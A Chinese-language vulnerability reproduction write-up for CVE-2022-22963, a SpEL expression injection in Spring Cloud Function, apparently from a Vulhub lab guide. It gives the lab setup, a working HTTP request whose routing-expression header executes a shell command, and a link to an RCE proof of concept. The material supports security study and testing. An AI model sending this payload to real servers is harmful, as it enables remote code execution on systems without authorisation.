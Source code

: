 # Spring Cloud Function SpEL表达式命令注入 CVE-2022-22963

## 漏洞描述

Spring Cloud Function 提供了一个通用的模型，用于在各种平台上部署基于函数的软件，包括像 Amazon AWS Lambda 这样的 FaaS（函数即服务，function as a service）平台。

参考链接：

- https://tanzu.vmware.com/security/cve-2022-22963
- https://mp.weixin.qq.com/s/onYJWIESgLaWS64lCgsKdw
- https://github.com/spring-cloud/spring-cloud-function/commit/0e89ee27b2e76138c16bcba6f4bca906c4f3744f

## 环境搭建

Vulhub执行如下命令启动一个使用Spring Cloud Function 3.2.2编写的服务器：

```
docker-compose up -d
```

服务启动后，执行`curl http://your-ip:8080/uppercase -H "Content-Type: text/plain" --data-binary test`即可执行`uppercase`函数，将输入字符串转换成大写。

## 漏洞复现

发送如下数据包，`spring.cloud.function.routing-expression`头中包含的SpEL表达式将会被执行：

```
POST /functionRouter HTTP/1.1
Host: y:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec("touch /tmp/success")
Content-Type: text/plain
Content-Length: 4

test
```

![image-20220412163215931](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/image-20220412163215931.png)

`touch /tmp/success`已经成功被执行：

<img src="https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/image-20220412163527748.png" alt="image-20220412163527748" style="zoom:50%;" />

## 漏洞POC

- Spring-cloud-function-SpEL-RCE：https://github.com/chaosec2021/Spring-cloud-function-SpEL-RCE

